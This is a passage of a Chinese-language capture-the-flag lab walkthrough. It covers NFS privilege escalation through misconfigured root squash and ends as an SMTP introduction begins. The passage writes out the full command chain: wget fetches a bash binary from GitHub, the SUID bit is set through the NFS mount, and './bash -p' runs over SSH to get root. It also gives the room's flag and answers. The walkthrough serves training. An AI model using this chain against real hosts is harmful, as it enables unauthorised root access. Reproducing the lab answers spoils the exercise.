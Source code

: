 ```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

**完整的利用途径**

下面是我们需要采取的逐步操作，我们可以看到这些操作将如何结合在一起以允许我们最终获得root shell：

NFS Access -> Gain Low Privilege Shell -> Upload Bash Executable to the NFS share -> Set SUID Permissions Through NFS Due To Misconfigured Root Squash -> Login through SSH -> Execute SUID Bit Bash Executable -> ROOT ACCESS

**答题**

tips：基于上一小节的实验环境进一步操作。

下载bash文件并将其复制到我们上一小节所挂载好的NFS共享的文件夹中；为NFS共享中的bash文件附加权限(将其设置为具有SUID位的可执行文件)；再次使用ssh登录到目标机，找到我们所上传的bash文件并进行执行：

```bash
#wget https://raw.githubusercontent.com/polo-sec/writing/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
#wget下载效果不佳，此处选择手动下载bash
ls -a
chown root bash
chmod +x bash
cp bash /tmp/mount/cappucino/
chmod +s /tmp/mount/cappucino/bash
ssh -i id_rsa cappucino@10.10.20.187

ls -la
./bash -p
```

![image-20230317223629633](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230317223629633.png)

![image-20230317223800902](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230317223800902.png)

> 我们使用什么字母配合chmod命令来设置SUID 位：s
>
> 最终的bash文件权限集为：-rwsr-sr-x

使用root shell查看目标文本文件内容：

![image-20230317223829520](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230317223829520.png)

> root.txt内容为：THM{nfs\_got\_pwned} 。

![image-20230317224231235](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230317224231235.png)

## SMTP服务简介

**什么是 SMTP？**

SMTP代表“简单邮件传输协议-Simple Mail Transfer Protocol”，它用于处理电子邮件的发送。为了支持电子邮件服务，需要一个协议对，这包括 SMTP协议和 POP/IMAP协议，它们允许用户分别发送传出邮件以及检索传入邮件。
